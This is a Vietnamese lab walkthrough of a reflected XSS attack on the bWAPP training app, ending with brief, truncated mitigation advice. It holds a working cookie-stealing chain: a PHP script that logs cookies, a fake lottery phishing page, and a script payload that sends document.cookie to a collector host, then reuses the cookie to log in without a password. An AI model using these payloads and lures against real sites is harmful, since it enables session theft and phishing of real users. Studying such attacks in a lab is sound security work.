 Bước 1: Xác định vị trí có thể dính XSS
Thử nhập họ tên và nhận được kết quả

![image](https://github.com/user-attachments/assets/34804180-fbab-4493-b02e-6a7296ad0bb2)

Kết quả trả về hiển thị ‘ Welcome Tran Van Thiep’. Từ đó có thể xác định có
khả năng bị dính lỗi XSS

Do là hoạt động theo phương thức GET nên có thể thấy dữ liệu được truyền đi 
kèm theo URL.

![image](https://github.com/user-attachments/assets/b2a93875-390a-4994-8316-65c6e540112f)

Bước 2: Kiểm tra lỗi XSS

Sau khi đã xác định được vị trí có khả năng mắc lỗi XSS, tiến hành kiểm tra 
bằng cách thử truyền vào 1 đoạn mã java script **<script>alert("XSS")</script>** để
thực hiện tạo 1 popup thông báo để kiểm tra xem site có bị lỗi XSS hay không?

![image](https://github.com/user-attachments/assets/8867814d-0762-40c0-a74a-6ec7c2a0430c)

Vậy là đã chắc chắn web vulnerable với XSS, ta sẽ tiến hành khai thác bằng kỹ thuật đánh cắp cookie:

Code php crawl cookie:

```php
<?php
    if(isset($_GET['cookie']))
    {
        $cookie = $_GET['cookie'];
        // Mở file cookie.txt, tham số a nghĩa là file này mở chỉ để write chứ không scan hay read
        $f=fopen('cookie.txt','a');
        // Ta write địa chỉ trang web mà ở trang đó bị ta chèn script.
        fwrite($f,$_SERVER['HTTP_REFERER']);
        // Ghi giá trị cookie
        fwrite($f,". Cookie la: ".$cookie." \n");
        // Đóng file lại
        fclose($f);
    }
?>
```

* Tạo một url phishing
```html
<html>
    <head>
        <title>Lottery</title>
    </head>
    <body>
	    <h1 align="center">CONGRATULATIONS!!!</h1>
	    <h1 align="center">YOU WON!!!</h1>
	    Click this <a href="http://localhost/bwapp/xss_get.php?firstname=%3Cscript%3Ewindow.open%28%22http%3A%2F%2Flocalhost%2Fget.php%3Fcookie%3D%22%2Bdocument.cookie%29%3C%2Fscript%3E&lastname=A&form=submit">link</a> to see your prize
    </body>
</html>
```
Phần bị mã hóa: 	   
```javascript
<script>window.open("http://localhost/get.php?cookie="+document.cookie)</script>
```

Tiếp theo, lừa người dùng click vào link phishing

![image](https://github.com/user-attachments/assets/b11b655f-febd-44f3-8afe-0df393e30ed0)

Khi mục tiêu ấn click vào link sẽ bị chuyển hướng tới web đã bị đệm javascript, sau đó sẽ bị crawl cookie về cookie.txt tại máy attacker:

![image](https://github.com/user-attachments/assets/7dd1b4e2-8b66-4523-847b-f93117a7cf0f)

Copy cookie và vào trình duyệt paste cái cookie này vào

![image](https://github.com/user-attachments/assets/1f7734b6-bfe2-4068-b3da-bf2efafca3c7)

Kết quả sau khi add cookie ta đã login mà không cần mật khẩu

![image](https://github.com/user-attachments/assets/79a836ee-6dcc-4d39-8b35-ae3dc4afbf0c)

### Cách khắc phục
*Lọc và kiểm tra dữ liệu đầu vào
** Đảm bảo rằng mọi dữ liệu đầu vào từ người dùng đều được kiểm tra và làm sạch trước khi được sử dụng trong trang web.
** Xóa bỏ hoặc mã hóa các ký tự đặc biệt có thể được sử dụng trong tấn công XSS (như <, >, ", ', &).
** Sử dụng các thư viện hoặc công cụ hỗ trợ như OWASP AntiSamy, DOMPurify để làm sạch đầu vào.
*Thoát ký tự đầu ra
**Đối với các ngôn ngữ kịch bản như HTML, JavaScript, thoát ký tự đặc biệt trước khi đưa dữ liệu từ người dùng ra trang web.
**
